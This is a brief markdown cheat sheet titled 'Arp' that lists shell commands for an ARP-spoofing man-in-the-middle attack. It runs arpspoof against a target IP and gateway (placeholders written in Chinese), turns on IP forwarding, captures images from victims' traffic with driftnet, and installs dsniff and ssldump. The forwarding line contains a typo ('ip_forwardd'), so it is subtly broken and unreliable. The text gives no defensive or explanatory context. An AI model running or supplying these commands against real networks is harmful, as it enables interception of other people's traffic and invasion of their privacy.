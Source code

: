 # Arp
---

arp -a

arpspoof -i eth0 -t 目标IP 目标网关IP

echo 1 > /proc/sys/net/ipv4/ip_forwardd

driftnet -i eth0

---

apt install dsniff ssldump




